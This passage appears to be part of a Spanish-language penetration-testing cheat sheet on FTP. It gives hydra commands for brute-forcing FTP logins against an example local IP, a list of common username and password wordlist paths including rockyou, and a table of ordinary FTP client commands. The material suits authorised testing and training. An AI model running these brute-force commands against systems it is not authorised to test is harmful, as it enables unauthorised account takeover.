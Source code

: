 <br>

<h3 id="FTP3">Aplicando Fuerza Bruta a FTP</h3>

```bash
# Aplicando fuerza bruta con hydra usando wordlists
hydra -L <wordlist_usuarios> -P <wordlist_contraseñas> <IP> ftp

Ej: hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.1.15 ftp
Ej2: hydra -l administrador -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.1.15 ftp


Wordlists:
*Usuarios: /usr/share/metasploit-framework/data/wordlists/common_users.txt
*Usuarios2: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
*Usuarios3: /usr/share/seclists/Usernames/top-usernames-shortlist.txt
*Usuarios4: /usr/share/metasploit-framework/data/wordlists/unix_users.txt
*Contraseñas: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
*Contraseñas2: /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt
*Contraseñas3: /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
*Contraseñas4: /usr/share/seclists/Passwords/seasons.txt
*Contraseñas5: /usr/share/seclists/Passwords/months.txt
*Contraseñas6: /usr/share/seclists/Passwords/common_corporate_passwords.lst
*Contraseñas nuclear: /usr/share/wordlists/rockyou.txt
```

<br>

<h3 id="FTP4">Comandos Útiles de FTP</h3>

Algunos comandos útiles que sirven dentro del **servicio FTP**:

| Comando    | Descripción |
|--------------------------|
| *help*      | Indica que comandos podemos utilizar en el servicio. |
| *ls, dir*   | Listar contenido.  |
| *cd*	      | Moverse entre directorios. |
| *pwd*	      | Muestra el PATH donde te encuentras. | 
| *mkdir*     | Crear un directorio. |
| *rmdir*     | Eliminar un directorio. |
| *get, mget* | Copia un archivo (o varios archivos) del directorio de trabajo remoto al directorio de trabajo local. |
| *put, mget* | Copia un archivo (o varios archivos) del directorio de trabajo local al directorio de trabajo remoto. |
| *delete, mdelete* | Elimina un archivo (o varios archivos) del directorio de trabajo remoto. |
| *binary*    | Para entrar en modo binario y poder descargar ejecutables, comprimidos, imagenes, ficheros de sonido, etc. |
| *ascii*     | Para entrar en modo ASCII y poder descargar ficheros o documentos, es el modo por defecto que tiene FTP.
| *exit, bye* | Salir del servicio. |
